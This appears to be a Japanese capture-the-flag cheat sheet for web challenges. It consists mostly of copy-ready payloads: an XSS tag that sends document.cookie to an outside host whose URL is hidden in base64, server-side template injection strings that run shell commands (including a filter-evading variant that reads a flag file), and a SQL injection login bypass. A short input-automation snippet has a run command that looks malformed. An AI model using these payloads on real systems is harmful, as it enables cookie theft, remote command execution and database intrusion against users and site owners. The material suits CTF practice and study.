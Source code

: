 # CTFチートシート
## 目次
{:toc}

---
## Web問
### XSS
```html:XSS
&lt;img src=x onerror=fetch(atob('aHR0cHM6Ly9tYXNhLWNvb2tpZXMtc3RlYWxlci5wYWdlcy5kZXYv')+?cookie='+document.cookie)&gt;
```
この場合は、僕のサイトにクッキーを送信する。
### SSTI
問題にどこにファイルがあるかわからない時には
```python:ssti_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```python:ssti_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```python:ssti_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
### SQLインジェクション
まず最初に、**'** や、**"** を試す
エラーを吐いたら、次に、
```mysql:sqlinjection
' OR 1=1 --
```
を試してみる

---
## Crypto問
**https://gchq.github.io/CyberChef/** がいい

---
## おまけ
n回後にmを入力するのを繰り返しするためのコード
```python:n_input
for i in range(100):
  for j in range(200):
    print(1)
  print(2)
```
実行方法:
```python:python
python n_input || 入力を自動化したいもの
```

